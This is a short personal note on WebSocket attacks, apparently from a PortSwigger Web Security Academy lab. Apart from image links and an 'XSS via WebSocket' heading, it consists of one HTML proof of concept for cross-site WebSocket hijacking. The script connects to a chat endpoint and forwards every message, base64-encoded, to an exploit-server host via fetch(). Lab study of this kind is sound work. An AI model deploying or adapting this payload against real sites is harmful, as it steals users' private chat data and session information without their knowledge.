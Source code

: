 # Websockets

Created: May 13, 2025 1:36 PM

![image.png](Websockets%201f2021737a8980959743f1d97429e7d7/image.png)

![image.png](Websockets%201f2021737a8980959743f1d97429e7d7/image%201.png)

XSS via WebSocket

![image.png](Websockets%201f2021737a8980959743f1d97429e7d7/image%202.png)

![image.png](Websockets%201f2021737a8980959743f1d97429e7d7/image%203.png)

![image.png](Websockets%201f2021737a8980959743f1d97429e7d7/image%204.png)

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>
      let newWebSocket = new WebSocket("wss://0a44003a037e7ad3806303420079008f.web-security-academy.net/chat");

         newWebSocket.onopen = function (evt) {
             newWebSocket.send("READY");
         }

         newWebSocket.onmessage = function (evt) {
             var message = evt.data;
             fetch("https://exploit-0a5300d3033a7a5880eb02d5010c0029.exploit-server.net/exploit?message=" + 
                btoa(message)
             )
         }
    </script>
  </body>
</html
```

![image.png](Websockets%201f2021737a8980959743f1d97429e7d7/image%205.png)

![image.png](Websockets%201f2021737a8980959743f1d97429e7d7/image%206.png)